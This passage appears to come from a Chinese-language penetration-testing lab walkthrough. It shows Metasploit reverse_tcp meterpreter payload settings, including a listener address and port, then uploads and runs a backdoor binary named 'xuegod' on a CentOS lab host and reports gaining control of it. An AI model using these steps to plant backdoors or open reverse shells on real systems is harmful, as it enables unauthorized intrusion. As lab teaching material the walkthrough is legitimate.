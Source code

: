 ```shell
Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.31.50.101    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
...
```



将xuegod后门上传至Centos:192.168.111.142并运行：

```
[root@localhost ~]# ls | grep xuegod
xuegod
[root@localhost ~]# chmod +x xuegod
[root@localhost ~]# ./xuegod
```

![image-20211015173120426](assets/image-20211015173120426.png)



成功获取Centos:`192.168.111.142`权限

![image-20211015172859513](assets/image-20211015172859513.png)
